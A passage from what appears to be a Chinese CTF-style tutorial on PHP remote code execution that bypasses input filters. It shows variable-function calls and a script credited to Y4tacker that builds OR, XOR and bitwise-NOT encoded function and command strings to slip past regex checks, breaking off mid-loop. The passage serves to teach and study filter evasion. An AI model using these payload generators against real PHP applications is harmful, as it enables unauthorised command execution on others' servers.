 我这里用的是php的7.3，`$a()`形式如下：

```php
<?php
$a = "phpinfo";
echo $a();
```



## 脚本

### Y4tacker 或/异或/取反

```php
<?php
//佬的脚本，拿来学习和使用
# @Author: Y4tacker
//或
function orRce($par1, $par2){
    $result = (urldecode($par1)|urldecode($par2));
    return $result;
}

//异或
function xorRce($par1, $par2){
    $result = (urldecode($par1)^urldecode($par2));
    return $result;
}

//取反
function negateRce(){
    fwrite(STDOUT,'[+]your function: ');

    $system=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    fwrite(STDOUT,'[+]your command: ');

    $command=str_replace(array("\r\n", "\r", "\n"), "", fgets(STDIN));

    echo '[*] (~'.urlencode(~$system).')(~'.urlencode(~$command).');';
}

//mode=1代表或，2代表异或，3代表取反
//取反的话，就没必要生成字符去跑了，因为本来就是不可见字符，直接绕过正则表达式
function generate($func,$cmd,$mode, $preg='/[0-9]/i'){
    $temp = [];
    if ($mode!=3){
        for ($i=0;$i<256;$i++){
            for ($j=0;$j<256;$j++){
                if ($i<16){
                    $hex_i = '0'.dechex($i);
                }else{
                    $hex_i = dechex($i);
                }
                if ($j<16){
                    $hex_j = '0'.dechex($j);
                }else{
                    $hex_j = dechex($j);
                }
                if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
                    echo "";
                }else{
                    $par1 = "%".$hex_i;
                    $par2 = '%'.$hex_j;
```